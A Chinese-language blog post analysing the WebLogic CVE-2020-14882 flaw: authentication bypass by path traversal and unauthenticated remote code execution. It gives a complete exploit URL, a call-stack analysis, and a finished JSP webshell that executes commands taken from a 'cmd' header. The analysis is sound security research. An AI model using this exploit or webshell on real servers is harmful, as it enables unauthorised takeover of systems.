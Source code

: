 ```yaml
---
layout:     post
title:      "Weblogic CVE-2020-14882调试 && 命令回显分析"
subtitle:   ""
date:       2020-11-12 20:40:00
author:     "kuron3k0"
header-img: "img/home-bg.jpg"
tags:
    - Weblogic
    - 漏洞分析
---
```


## 简介
这是weblogic的一个未授权前台RCE，通过GET请求即可触发，简单粗暴。

## 复现一下
直接下载了14.1.1.0.0版本的weblogic，payload先搞上
![](/img/in-post/CVE-2020-14882/burp.PNG)

利用成功，太猛了
![](/img/in-post/CVE-2020-14882/calc.png)

触发点是`com.bea.console.handles.HandleFactory`的`getHandle`，可以调用一个参数是String的构造函数，payload中用的是`com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('calc.exe');");`
![](/img/in-post/CVE-2020-14882/handle.png)

调用栈如下：
```java
<init>:114, ShellSession (com.tangosol.coherence.mvel2.sh)
newInstance:-1, GeneratedConstructorAccessor110 (sun.reflect)
newInstance:45, DelegatingConstructorAccessorImpl (sun.reflect)
newInstance:423, Constructor (java.lang.reflect)
getHandle:58, HandleFactory (com.bea.console.handles)
init:112, BreadcrumbBacking (com.bea.console.utils)
initializeBackingFile:144, Backable$Impl (com.bea.netuix.servlets.controls)
init:64, AdministeredBackableControl (com.bea.netuix.servlets.controls)
init:236, Window (com.bea.netuix.servlets.controls.window)
init:226, Portlet (com.bea.netuix.servlets.controls.portlet)
visit:99, ControlLifecycle$1 (com.bea.netuix.nf)
walkRecursive:324, ControlTreeWalker (com.bea.netuix.nf)
walkRecursive:334, ControlTreeWalker (com.bea.netuix.nf)
walkRecursive:334, ControlTreeWalker (com.bea.netuix.nf)
walkRecursive:334, ControlTreeWalker (com.bea.netuix.nf)
walkRecursive:334, ControlTreeWalker (com.bea.netuix.nf)
walkRecursive:334, ControlTreeWalker (com.bea.netuix.nf)
walkRecursive:334, ControlTreeWalker (com.bea.netuix.nf)
walkRecursive:334, ControlTreeWalker (com.bea.netuix.nf)
walkRecursive:334, ControlTreeWalker (com.bea.netuix.nf)
walkRecursive:334, ControlTreeWalker (com.bea.netuix.nf)
walkRecursive:334, ControlTreeWalker (com.bea.netuix.nf)
walkRecursive:334, ControlTreeWalker (com.bea.netuix.nf)
walkRecursive:334, ControlTreeWalker (com.bea.netuix.nf)
walkRecursive:334, ControlTreeWalker (com.bea.netuix.nf)
walkRecursive:334, ControlTreeWalker (com.bea.netuix.nf)
walkRecursive:334, ControlTreeWalker (com.bea.netuix.nf)
walkRecursive:334, ControlTreeWalker (com.bea.netuix.nf)
walk:130, ControlTreeWalker (com.bea.netuix.nf)
processLifecycles:399, Lifecycle (com.bea.netuix.nf)
processLifecycles:361, Lifecycle (com.bea.netuix.nf)
processLifecycles:352, Lifecycle (com.bea.netuix.nf)
runInbound:184, Lifecycle (com.bea.netuix.nf)
run:159, Lifecycle (com.bea.netuix.nf)
runLifecycle:465, UIServlet (com.bea.netuix.servlets.manager)
doPost:291, UIServlet (com.bea.netuix.servlets.manager)
doGet:231, UIServlet (com.bea.netuix.servlets.manager)
service:216, UIServlet (com.bea.netuix.servlets.manager)
service:275, SingleFileServlet (com.bea.netuix.servlets.manager)
service:750, HttpServlet (javax.servlet.http)
service:64, MBeanUtilsInitSingleFileServlet (com.bea.console.utils)
service:125, AsyncInitServlet (weblogic.servlet)
run:295, StubSecurityHelper$ServletServiceAction (weblogic.servlet.internal)
run:260, StubSecurityHelper$ServletServiceAction (weblogic.servlet.internal)
invokeServlet:137, StubSecurityHelper (weblogic.servlet.internal)
execute:353, ServletStubImpl (weblogic.servlet.internal)
doFilter:25, TailFilter (weblogic.servlet.internal)
doFilter:82, FilterChainImpl (weblogic.servlet.internal)
doFilter:38, ParamFilter (com.bea.console.internal)
doFilter:82, FilterChainImpl (weblogic.servlet.internal)
doFilter:32, RequestEventsFilter (weblogic.servlet.internal)
doFilter:82, FilterChainImpl (weblogic.servlet.internal)
wrapRun:3866, WebAppServletContext$ServletInvocationAction (weblogic.servlet.internal)
run:3829, WebAppServletContext$ServletInvocationAction (weblogic.servlet.internal)
doAs:344, AuthenticatedSubject (weblogic.security.acl.internal)
runAsForUserCode:197, SecurityManager (weblogic.security.service)
runAsForUserCode:203, WlsSecurityProvider (weblogic.servlet.provider)
run:71, WlsSubjectHandle (weblogic.servlet.provider)
processSecuredExecute:2502, WebAppServletContext (weblogic.servlet.internal)
doSecuredExecute:2351, WebAppServletContext (weblogic.servlet.internal)
securedExecute:2326, WebAppServletContext (weblogic.servlet.internal)
execute:2304, WebAppServletContext (weblogic.servlet.internal)
runInternal:1779, ServletRequestImpl (weblogic.servlet.internal)
run:1733, ServletRequestImpl (weblogic.servlet.internal)
run:272, ContainerSupportProviderImpl$WlsRequestExecutor (weblogic.servlet.provider)
_runAs:352, ComponentInvocationContextManager (weblogic.invocation)
runAs:337, ComponentInvocationContextManager (weblogic.invocation)
doRunWorkUnderContext:57, LivePartitionUtility (weblogic.work)
runWorkUnderContext:41, PartitionUtility (weblogic.work)
runWorkUnderContext:651, SelfTuningWorkManagerImpl (weblogic.work)
execute:420, ExecuteThread (weblogic.work)
run:360, ExecuteThread (weblogic.work)
```

## 漏洞分析

触发的url应该为`http://localhost:7001/console/%252E%252E%252Fconsole.portal?_nfpb=true&_pageLabel=HomePage1&handle=com.tangosol.coherence.mvel2.sh.ShellSession(%22java.lang.Runtime.getRuntime().exec(%27calc.exe%27);%22);`

找到application.xml，确定触发的入口
![](/img/in-post/CVE-2020-14882/entry.png)

web.xml中，解析portal后缀的servlet为`AppManagerServlet`
![](/img/in-post/CVE-2020-14882/portal.png)

其他文章中提到的触发点`MBeanUtilsInitSingleFileServlet`
![](/img/in-post/CVE-2020-14882/define.png)

跟进`AsyncInitServlet`
![](/img/in-post/CVE-2020-14882/define.png)

从web进入后调用service方法
![](/img/in-post/CVE-2020-14882/asyncservice.png)

此处的delegate是servlet初始化的时候创建的，`weblogic.servlet.AsyncInitServlet.servlet-class-name`就是web.xml里配置的`MBeanUtilsInitSingleFileServlet`
![](/img/in-post/CVE-2020-14882/delegate.png)
![](/img/in-post/CVE-2020-14882/delegate2.png)

后面`MBeanUtilsInitSingleFileServlet`触发命令执行的地方先不提，来看看权限认证是怎么绕过的。

weblogic接收到请求后，走到`SelfTuningWorkManagerImpl`，可以看到workAdapter存有我们的请求信息
![](/img/in-post/CVE-2020-14882/start.png)

一路F8，在`WebAppServletContext`的`processSecuredExecute`方法中看到了`checkAccess`，跟进
![](/img/in-post/CVE-2020-14882/checkaccess.png)

首先从constraintsMap中获取了一个资源的集合，然后判断我们输入的url符合其中的哪一条
![](/img/in-post/CVE-2020-14882/constraint.png)

这里匹配上了`/images/`的规则
![](/img/in-post/CVE-2020-14882/images.png)

`resourceConstraint`带着刚刚匹配上的规则，进入`isAuthorized`函数
![](/img/in-post/CVE-2020-14882/isauth.png)
![](/img/in-post/CVE-2020-14882/isauth2.png)

最终在`hasPermission`中，判断`ResourceConstraint`的`unrestricted`属性，`/images/`开头的url直接返回`true`
![](/img/in-post/CVE-2020-14882/hasperm.png)


后面经过一系列的Filter后，调用对应的servlet
![](/img/in-post/CVE-2020-14882/servlet.png)

调用service方法，这就到了开头的地方了
![](/img/in-post/CVE-2020-14882/service.png)

上下文设置路径，这个时候url还是在编码的状态
![](/img/in-post/CVE-2020-14882/path.png)

进入到getTree函数，在这里有一个对路径做解码的操作
![](/img/in-post/CVE-2020-14882/beforegettree.png)
![](/img/in-post/CVE-2020-14882/aftergettree.png)

第一次进来getMergedControlFromFile函数，这个时候factoryMap是空的，所以我们根据路径去匹配portal信息是会匹配不上的
![](/img/in-post/CVE-2020-14882/map.png)

所以从factoryMap取出来的rootMcf为空，进入getControlFactoryFromFile函数去找对应的portal文件
![](/img/in-post/CVE-2020-14882/map.png)

最终在getSource中实现了目录穿越，成功访问到console.portal
![](/img/in-post/CVE-2020-14882/finder.png)

并将这个url加入缓存
![](/img/in-post/CVE-2020-14882/cache.png)

后面就是正常的执行流程，到达对应的servlet后，调用我们写入的com.tangosol.coherence.mvel2.sh.ShellSession类，实现命令执行

## 命令回显
这里也分析一下weblogic的命令回显，相对于其他中间件，weblogic可以比较简单的获取request和response对象


随便访问一个url，进来到ExecuteThread的execute函数，可以看到workadapter中的connectionHandler属性保存着request和response对象，所以问题转换为获取workadapter对象，而ExecuteThread有一个getCurrentWork方法就可以获取到这个adapter
![](/img/in-post/CVE-2020-14882/workadapter.png)
```java
weblogic.work.WorkAdapter adapter = ((weblogic.work.ExecuteThread)Thread.currentThread()).getCurrentWork();
```

获取workadapter中的connectionHandler
```java
java.lang.reflect.Field field = adapter.getClass().getDeclaredField("connectionHandler");
field.setAccessible(true);
Object obj = field.get(adapter);
```
从connectionHandler中得到request和response对象
![](/img/in-post/CVE-2020-14882/getres.png)
```java
weblogic.servlet.internal.ServletRequestImpl req = (weblogic.servlet.internal.ServletRequestImpl)obj.getClass().getMethod("getServletRequest").invoke(obj);
weblogic.servlet.internal.ServletResponseImpl res = (weblogic.servlet.internal.ServletResponseImpl)obj.getClass().getMethod("getServletResponse").invoke(obj);
 
```

从http头取命令，执行后写到response中
```java
String cmd = (String) req.getClass().getMethod("getHeader", String.class).invoke(req, "cmd");
if(cmd != null && !cmd.isEmpty()){
    String result = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A").next();
    res.getServletOutputStream().writeStream(new weblogic.xml.util.StringInputStream(result));
    res.getServletOutputStream().flush();
    res.getWriter().write("");
}
```

最终代码
```java
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%
    weblogic.work.WorkAdapter adapter = ((weblogic.work.ExecuteThread)Thread.currentThread()).getCurrentWork();
    java.lang.reflect.Field field = adapter.getClass().getDeclaredField("connectionHandler");
    field.setAccessible(true);
    Object obj = field.get(adapter);
    weblogic.servlet.internal.ServletRequestImpl req = (weblogic.servlet.internal.ServletRequestImpl)obj.getClass().getMethod("getServletRequest").invoke(obj);
    weblogic.servlet.internal.ServletResponseImpl res = (weblogic.servlet.internal.ServletResponseImpl)obj.getClass().getMethod("getServletResponse").invoke(obj);
    String cmd = (String) req.getClass().getMethod("getHeader", String.class).invoke(req, "cmd");
    if(cmd != null && !cmd.isEmpty()){
        String result = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A").next();
        res.getServletOutputStream().writeStream(new weblogic.xml.util.StringInputStream(result));
        res.getServletOutputStream().flush();
        res.getWriter().write("");
    }

%>

```



## Reference
- [https://testbnull.medium.com/weblogic-rce-by-only-one-get-request-cve-2020-14882-analysis-6e4b09981dbf](https://testbnull.medium.com/weblogic-rce-by-only-one-get-request-cve-2020-14882-analysis-6e4b09981dbf)
- [https://github.com/feihong-cs/Java-Rce-Echo/blob/master/weblogic/code/WeblogicEcho.jsp](https://github.com/feihong-cs/Java-Rce-Echo/blob/master/weblogic/code/WeblogicEcho.jsp)


